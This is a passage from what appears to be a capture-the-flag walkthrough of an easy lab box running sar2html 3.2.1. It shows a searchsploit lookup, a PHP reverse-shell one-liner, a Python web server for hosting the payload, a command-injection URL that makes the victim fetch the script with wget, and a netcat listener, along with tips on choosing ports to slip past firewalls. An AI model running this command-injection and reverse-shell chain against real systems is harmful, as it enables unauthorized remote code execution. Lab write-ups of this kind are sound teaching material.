 
Just for good measure, let's make sure we aren't missing any for sar2html:

>searchsploit sar2html
>---------------------------------------------------------------------------------------------------------------------- ---------------------------------
> Exploit Title                                                                                                        |  Path
>---------------------------------------------------------------------------------------------------------------------- ---------------------------------
>Sar2HTML 3.2.1 - Remote Command Execution                                                                             | php/webapps/47204.txt
>---------------------------------------------------------------------------------------------------------------------- ---------------------------------
>Shellcodes: No Results
>Papers: No Results

Well, that's seems pretty obvious that we should poke at sar2html and then see about that php file upload.

## Initial Compromise

When I'm learning, I like to go nuts to see what commands can and cannot be run remotely, but keep in mind in the real world you want to be stealthy.  Since I knew we were running PHP, this is a great time to try a PHP shell.  I'm making my own cheat sheet for shells, but you can't go wrong with [PenTestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).  I could see of I can run the php command right there in the URL, but I didn't like the way the output was sort of hidden and again, be stealthy, try not to put too much in the URL.

So, I copy over my shell and save it as shell.sh to send to the victim:
>  php -r '$sock=fsockopen("10.10.10.11",8888);exec("/bin/sh -i <&3 >&3 2>&3");'

Now I encourage you to play with the ports with your shell when you are learning.  On easy boxes they don't run firewalls so you can pick any port (for some reason I always use 8888), but in the real world you're going to have restrictions, so get into the habit of using 443, 53, or other common ports.  In this case, it doesn't matter which port you picked.  Now whatever directory you saved your shell script in, you can start a Python web server or if you want to get real fancy, throw it over to /var/www/html and fire up Apache.  I've done this in the past just to learn how to do it, but it's much more convenient to just use python:
>python -m SimpleHTTPServer 8080
OR for Python 3
>python -m http.server 8080

Side note: use any port you want, but again keep in mind firewalls.  I like to use 8080 since it's a HTTP backup port and it help me organize what I have running on what port (remember I typically use 8888 or 443 for a netcat shell).

Now, let's run a command on the victim to get our file:
>http://10.10.10.10/sar2HTML/index.php?plot=;wget%20http://10.10.10.11:8080/shell.sh

Wget is a pretty common Linux utility, so we should be fine.  Just in case though, you can run "which command" where command is the command you want to check, and if you get the file path returned, you know that it exists.  Now that the shell script is on the victim, let's set up our listener:
>nc -nlvp 8888
